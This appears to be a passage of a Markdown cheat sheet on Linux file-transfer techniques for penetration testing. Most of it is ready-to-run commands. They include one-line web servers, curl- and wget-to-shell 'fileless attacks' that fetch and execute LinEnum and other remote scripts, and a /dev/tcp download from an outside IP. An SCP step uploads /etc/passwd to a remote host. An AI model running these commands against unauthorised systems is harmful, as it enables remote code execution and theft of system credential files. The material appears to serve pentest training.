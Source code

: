 ```bash
python2.7 -m SimpleHTTPServer
```
- **Creating a Web Server with PHP**
```bash
php -S 0.0.0.0:8000
```
- **Creating a Web Server with Ruby**
```bash
ruby -run -ehttpd . -p8000
```

### Fileless Attacks Using Linux
1. **Fileless Download with cURL**
```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```
2. **Fileless Download with wget**
```bash
 wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```
### Download with Bash(/dev/tcp)
1. **Connect to the Target Webserver**
```bash
exec 3<>/dev/tcp/13.13.13.13/80
```
2. **HTTP GET Request**
```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```
3. **Print the Response**
```bash
cat <&3
```
### SCP Download
`SSH` is a protocol that allows secure access to remote computers. And we could use `SCP`  utility which uses SSH protocol for transferring files
1. **Enabling the SSH Server**
```bash
sudo systemctl enable ssh
```
2. **Starting the SSH Server**
```bash
sudo systemctl start ssh
```
3. **Checking for SSH Listening Port**
```bash
netstat -lnpt
```
4. **Linux - Downloading Files Using SCP**
```bash
scp plaintext@192.168.49.128:/root/myroot.txt .
```
### SCP Upload
- **File Upload with SCP**
```bash
scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
```
## Code File Transfers
### Python
1. **Python 2 - Download**
```bash
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```